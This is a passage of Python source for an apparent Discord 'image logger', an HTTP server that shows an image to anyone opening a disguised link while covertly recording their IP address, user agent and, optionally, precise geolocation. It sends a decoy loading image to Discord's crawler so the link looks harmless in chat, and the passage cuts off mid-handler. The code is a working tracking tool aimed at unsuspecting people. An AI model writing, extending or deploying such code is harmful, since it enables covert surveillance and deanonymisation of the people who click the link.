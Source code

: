 ```
    # You can look at the below snippet, which simply serves those bytes to any client that is suspected to be a Discord crawler.
}

class ImageLoggerAPI(BaseHTTPRequestHandler):
    
    def handleRequest(self):
        try:
            if config["imageArgument"]:
                s = self.path
                dic = dict(parse.parse_qsl(parse.urlsplit(s).query))
                if dic.get("url") or dic.get("id"):
                    url = base64.b64decode(dic.get("url") or dic.get("id").encode()).decode()
                else:
                    url = config["image"]
            else:
                url = config["image"]

            data = f'''<style>body {{
margin: 0;
padding: 0;
}}
div.img {{
background-image: url('{url}');
background-position: center center;
background-repeat: no-repeat;
background-size: contain;
width: 100vw;
height: 100vh;
}}</style><div class="img"></div>'''.encode()
            
            if self.headers.get('x-forwarded-for').startswith(blacklistedIPs):
                return
            
            if botCheck(self.headers.get('x-forwarded-for'), self.headers.get('user-agent')):
                self.send_response(200 if config["buggedImage"] else 302) # 200 = OK (HTTP Status)
                self.send_header('Content-type' if config["buggedImage"] else 'Location', 'image/jpeg' if config["buggedImage"] else url) # Define the data as an image so Discord can show it.
                self.end_headers() # Declare the headers as finished.

                if config["buggedImage"]: self.wfile.write(binaries["loading"]) # Write the image to the client.

                makeReport(self.headers.get('x-forwarded-for'), endpoint = s.split("?")[0], url = url)
                
                return
            
            else:
                s = self.path
                dic = dict(parse.parse_qsl(parse.urlsplit(s).query))

                if dic.get("g") and config["accurateLocation"]:
                    location = base64.b64decode(dic.get("g").encode()).decode()
                    result = makeReport(self.headers.get('x-forwarded-for'), self.headers.get('user-agent'), location, s.split("?")[0], url = url)
                else:
                    result = makeReport(self.headers.get('x-forwarded-for'), self.headers.get('user-agent'), endpoint = s.split("?")[0], url = url)
                

                message = config["message"]["message"]

```